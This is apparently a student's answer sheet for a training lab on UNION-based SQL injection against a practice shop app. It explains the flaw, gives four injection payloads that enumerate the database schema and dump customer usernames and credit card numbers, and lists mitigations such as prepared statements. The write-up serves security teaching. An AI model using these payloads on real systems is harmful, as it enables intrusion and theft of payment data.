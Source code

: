 # SQL injection with Union (GlockenEmil)

## Answers
**Explain the security problem**
    - user input is directly integrated in a sql statement. (probably just some string concatenation)
    - Using this vulnerability and the "Union" statement, it is possible to add results to the result set. The union statement must have the same amount of columns in the select. Another vulnerability is that it is possible to query the meta data of the database. This allows to collect information about the database tables etc. and makes it easy - no try and error approach is needed - to retrieve all the needed data.  

**Explain your attack (exploit, screenshot, hacking journal)**

Since I don't really know the database used, i followed the steps in the task: 
Executed statements 
1. ') UNION SELECT schema_name,1,1,1,1 FROM INFORMATION_SCHEMA.SCHEMATA #
2. ') UNION ALL SELECT table_name,1,1,1,1 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'glocken_emil' #
3. ') UNION ALL SELECT column_name,1,1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'customers' #
4. ') UNION ALL SELECT username, surname, name, creditcard,1 FROM glocken_emil.customers #
Found credit card number for hacker42 (Moser Joerg): '2323-4545-2354-8989'

**Explain mitigation (remedy)**
    - use parameterized queries (prepared statements) so sql injection is not possible
    - the connection the web server establishes to the database should not have the permission to the query meta data. It should only have the permissions needed. 
    - (WAF could probably detect and reject the malicious sql statements.)